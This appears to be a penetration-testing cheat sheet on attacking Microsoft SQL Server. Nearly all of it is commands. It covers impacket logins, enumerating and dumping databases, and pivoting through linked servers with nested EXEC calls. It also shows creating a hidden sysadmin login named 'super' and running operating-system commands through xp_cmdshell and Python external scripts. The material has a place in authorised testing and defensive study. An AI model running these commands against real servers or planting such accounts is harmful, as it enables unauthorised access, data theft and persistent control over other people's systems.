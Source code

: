 # MSSQL Database Authentication and Dumping

### Commands:

#### 1) Kerberos auth

    impacket-mssqlclient -k DOMAIN.LOCAL -no-pass

#### 2) Windows Authentication (Domain Credentials)

    impacket-mssqlclient -windows-auth DOMAIN\\USERNAME@TARGET_IP

#### 3) Local Authentication

    impacket-mssqlclient USERNAME@TARGET_IP 

### DATABASE COMMANDS

#### 1) Enumerate all databases within MSSQL instance

    SELECT name FROM sys.databases; 

#### 2) Enumerate tables of the target database
    
    SELECT TABLE_NAME,TABLE_SCHEMA FROM targetdb.INFORMATION_SCHEMA.TABLES; 

#### 3) Dump all the contents of the target table of the target database
    
    SELECT * FROM targetdb.dbo.targettable 

### LINKED DATABASES ABUSE

#### 1) Check if our user has admin privileges to run commands with xp_cmdshell

    select name,sysadmin from syslogins; 

#### 2) Check if there are any linked servers on the current database. Isremote determines if it is linked or remote. If it is 1, it means it is linked, else is remote.

    select srvname, isremote from sysservers; 

#### 3) Check in whose context we are able to query the linked server

    EXEC ('select current_user') at [NAME\REMOTE_DATABASE]; 

#### 4) Check for sysadmin sa privileges

    EXEC ('select name,sysadmin from syslogins') at [NAME\REMOTE DATABASE]; 

#### 5) Check the remote DB server if it has more links

    EXEC ('select srvname,isremote from sysservers') at [NAME\REMOTE_DATABASE]; 

#### 6) Nested queries. This use case means that we have encountered a circular link between database servers!

    EXEC ('EXEC (''select susername()'') at [NAME\DATABASE]') at [NAME\REMOTE DATABASE]; 

#### 7) If we are sa, then we add a user with sysadmin privileges for us

    EXEC ('EXEC (''EXEC sp_addlogin ''''super'''', ''''abc123!'''''') at [NAME\DATABASE]') at [NAME\REMOTE DATABASE];

    EXEC ('EXEC (''EXEC sp_addsrvrolemember ''''super'''', ''''sysadmin'''''') at [NAME\DATABASE]') at [NAME\REMOTE DATABASE];

### COMMAND EXECUTION WITH XP_CMDSHELL

#### 1) Enable command execution

    enable xp_cmdshell 
 
    xp_cmdshell whoami

#### 2) Enable execution of external scripts written in R or python

    EXECUTE sp_configure 'external scripts enabled', 1; 

#### 3) Run commands using Python

    EXEC sp_execute_external_script @language = N'Python', @script = N'import os; os.system("COMMAND");'; 

